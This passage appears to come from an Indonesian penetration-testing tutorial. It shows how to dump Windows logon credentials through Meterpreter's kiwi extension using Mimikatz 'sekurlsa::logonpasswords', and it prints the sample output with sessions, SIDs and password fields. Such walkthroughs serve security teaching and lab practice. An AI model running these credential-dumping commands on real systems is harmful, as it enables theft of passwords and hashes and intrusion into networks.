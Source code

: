 2. Atau Menggunakan Mimikatz:

   ```
   load kiwi
   kiwi_cmd sekurlsa::logonpasswords
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > load kiwi 
   Loading extension kiwi...
     .#####.   mimikatz 2.2.0 20191125 (x64/windows)
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
    '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
     '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

   Success.
   meterpreter > kiwi_cmd sekurlsa::logonpasswords

   Authentication Id : 0 ; 997 (00000000:000003e5)
   Session           : Service from 0
   User Name         : LOCAL SERVICE
   Domain            : NT AUTHORITY
   Logon Server      : (null)
   Logon Time        : 5/10/2025 1:08:48 PM
   SID               : S-1-5-19
	   msv :	
	   tspkg :	
	   wdigest :	
	    * Username : (null)
	    * Domain   : (null)
	    * Password : (null)
	   kerberos :	
	    * Username : (null)
	    * Domain   : (null)
	    * Password : (null)
	   ssp :	
	   credman :	

   Authentication Id : 0 ; 996 (00000000:000003e4)
   Session           : Service from 0
   User Name         : ADMIN-PC$
   Domain            : WORKGROUP
   Logon Server      : (null)
   Logon Time        : 5/10/2025 1:08:48 PM
   SID               : S-1-5-20
	   msv :	
	   tspkg :	
	   wdigest :	
	    * Username : ADMIN-PC$
	    * Domain   : WORKGROUP
	    * Password : (null)
	   kerberos :	
	    * Username : admin-pc$
	    * Domain   : WORKGROUP
	    * Password : (null)
	   ssp :	
	   credman :	

   Authentication Id : 0 ; 23597 (00000000:00005c2d)
   Session           : UndefinedLogonType from 0
   User Name         : (null)
   ```